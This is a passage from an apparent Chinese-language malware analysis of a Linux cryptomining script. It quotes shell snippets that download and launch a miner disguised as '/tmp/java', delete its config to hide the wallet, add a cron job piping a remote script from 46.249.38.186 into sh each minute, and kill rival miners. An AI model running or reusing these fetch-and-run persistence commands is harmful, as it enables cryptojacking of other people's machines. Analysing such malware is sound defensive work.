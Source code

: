 核心功能代码片段：代码会先检查本地挖矿程序是否已经存在，如果不存在则调用downloadIfNeed函数，该函数会检查并下载最新的挖矿程序和配置文件。downloadIfNeed函数执行完成之后，会利用nohup命令后台执行挖矿程序，同时删除配置文件，防止泄漏个人钱包地址，矿池地址等：

```
...
if [ ! "$(ps -fe|grep '/tmp/java'|grep 'w.conf'|grep -v grep)" ];
then
    downloadIfNeed
    chmod +x $DIR/java
    $WGET $DIR/w.conf https://raw.githubusercontent.com/ffazop1/mygit/master/w.conf
    nohup $DIR/java -c $DIR/w.conf &gt; /dev/null 2&gt;&amp;1 &amp;
    sleep 5
    rm -rf $DIR/w.conf
else
    echo "Running"
fi
...
```

任务计划相关代码片段：代码会检查当前任务计划中，是否存在46.249.38.186地址，如果没有，则会写入利用curl或者wget下载并执行cr.sh脚本的任务计划，同时会调用pkill命令结束其他已知的挖矿进程、清理其他挖矿脚本的任务计划：

```
...
if crontab -l | grep -q "46.249.38.186"
then
    echo "Cron exists"
else
    echo "Cron not found"
    LDR="wget -q -O -"
    if [ -s /usr/bin/curl ];
    then
        LDR="curl";
    fi
    if [ -s /usr/bin/wget ];
    then
        LDR="wget -q -O -";
    fi
    (crontab -l 2&gt;/dev/null; echo "* * * * * $LDR http://46.249.38.186/cr.sh | sh &gt; /dev/null 2&gt;&amp;1")| crontab -
fi
 
pkill -f logo4.jpg
pkill -f logo0.jpg
pkill -f logo9.jpg
pkill -f jvs
pkill -f javs
pkill -f 192.99.142.248
rm -rf /tmp/pscd*
rm -rf /var/tmp/pscd*
crontab -l | sed '/192.99.142.232/d' | crontab -
crontab -l | sed '/192.99.142.226/d' | crontab -
crontab -l | sed '/192.99.142.248/d' | crontab -
crontab -l | sed '/45.77.86.208/d' | crontab -
...
```
